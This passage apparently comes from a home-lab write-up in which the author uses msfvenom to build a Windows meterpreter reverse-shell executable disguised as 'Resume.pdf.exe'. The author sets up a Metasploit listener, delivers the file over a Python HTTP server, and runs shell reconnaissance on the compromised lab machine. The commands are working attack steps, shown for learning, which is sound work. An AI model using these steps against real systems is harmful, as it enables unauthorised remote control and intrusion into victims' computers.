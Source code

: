 With the payload now identified, the command "msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.10.1 lport=4444 -f exe -o Resume.pdf.exe". This command creates the malware and instructs it to connect to our attacker system at 10.10.10.1 on port:4444. This file is also assigned the ".exe" file type and saved under the name "Resume.pdf.exe".

<img src="https://i.imgur.com/UlCNlkq.png[/img]"/>

### Listener Configuration
Now that the malware is created, a listener was configured to monitor the port specified in the malware for incoming connections. I began by running the command "msfconsole", opening Metasploit Framework. 

<img src="https://i.imgur.com/sBct5y8.png[/img]"/>

Following the launch of Metasploit Framework, the command "use exploit/multi/handler" was ran followed by the command "options" to begin configuring the listener for the payload. The listener was then configured changing the "Payload options" with the command "set payload windows/x64/meterpreter_reverse_tcp" and the "LHOST" with "set lhost 10.10.10.1". After verifying the listener is configured correctly with the "options" command, the listener was deployed using "exploit".

<img src="https://i.imgur.com/2U6NXEr.png[/img]"/>
<img src="https://i.imgur.com/3kEZUlN.png[/img]"/>

### Payload Delivery
For payload delivery, a http server was created by executing the command "python3 -m http.server 9999".

<img src="https://i.imgur.com/HtWk9d7.png[/img]"/>

### Target Compromise
I then switch back to target machine, navigate to the attacker's web server at 10.10.10.1:9999, download and execute the malware, and verify that a connection to the attacker system was established by performing the command "netstat -anob".

<img src="https://i.imgur.com/5VaDDgb.png[/img]"/>
<img src="https://i.imgur.com/7a13j0N.png[/img]"/>

### Post-Exploitation Activities
Moving back to the attacker system, I noticed a connection had been established with our target system. 

<img src="https://i.imgur.com/WuYXtFI.png[/img]"/>

From here, I established a shell by running the command "shell" on the attacker machine and begin running the commands "net user", "net localgroup", and "ipconfig".

<img src="https://i.imgur.com/dndxxCs.png[/img]"/>
<img src="https://i.imgur.com/4GD503Z.png[/img]"/>
